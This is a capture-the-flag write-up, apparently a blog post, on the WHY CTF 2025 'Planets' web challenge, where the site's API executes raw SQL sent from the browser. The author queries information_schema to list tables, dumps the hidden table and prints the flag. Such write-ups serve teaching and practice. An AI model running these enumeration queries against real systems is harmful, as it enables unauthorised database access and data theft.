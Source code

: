 ```yaml
---
title: "WHY CTF 2025"
date: 2025-08-14 12:00:00 +0300
categories: [CTF, Web]
tags: [SQLi]
author: raadalzyoud
description: "A detailed write-up of the WHY CTF 2025 challenge."
toc: true
comments: true
media_subpath: /assets/Web/
---
```

# Challenge Summary :
![Desktop View](/chall_planets.png){: width="600" height="350" }

The **Planets** challenge provided a beginner-friendly website featuring an overview of the solar system’s planets. The site fetched planet data from a backend API endpoint `/api.php` via POST requests containing raw SQL queries. The goal was to investigate potential vulnerabilities and retrieve any hidden flag from the database.

![Desktop View](/Screenshot 2025-08-10 031215.png){: width="600" height="350" }

# Initial Recon :

On inspecting the frontend code, the JavaScript `fetch` call stood out:

```javascript
fetch("/api.php", {
    method: "POST",
    body: "query=SELECT * FROM planets",
    headers: {"Content-type": "application/x-www-form-urlencoded; charset=UTF-8"},
})
```
This indicated the backend accepts and executes arbitrary SQL queries from the `query` parameter directly—an immediate red flag for a SQL injection vulnerability.

![Desktop View](/Screenshot 2025-08-10 031225.png){: width="600" height="350" }

# Database Enumeration  :

To confirm this, I attempted to enumerate the database tables by sending the following `payload` :

```query=SELECT table_name FROM information_schema.tables WHERE table_schema = database()```

`Response` : ```[
  {"TABLE_NAME":"abandoned_planets"},
  {"TABLE_NAME":"planets"}]```

![Desktop View](/Screenshot 2025-08-10 031429.png){: width="600" height="350" }

# The database contained two tables :

`planets` (expected, containing the main solar system planets).

`abandoned_planets` (potentially holding hidden or extra data).

# Data Extraction & Flag Discovery :
Focusing on the less obvious abandoned_planets table, I extracted all its contents :

![Desktop View](/Screenshot 2025-08-10 031459.png){: width="600" height="350" }

```[{
  "id":1,
  "name":"Pluto",
  "image":"pluto.png",
  "description":"Have you heard about Pluto? That's messed up right? flag{9c4dea2d8ae5681a75f8e670ac8ba999}"
}]
```
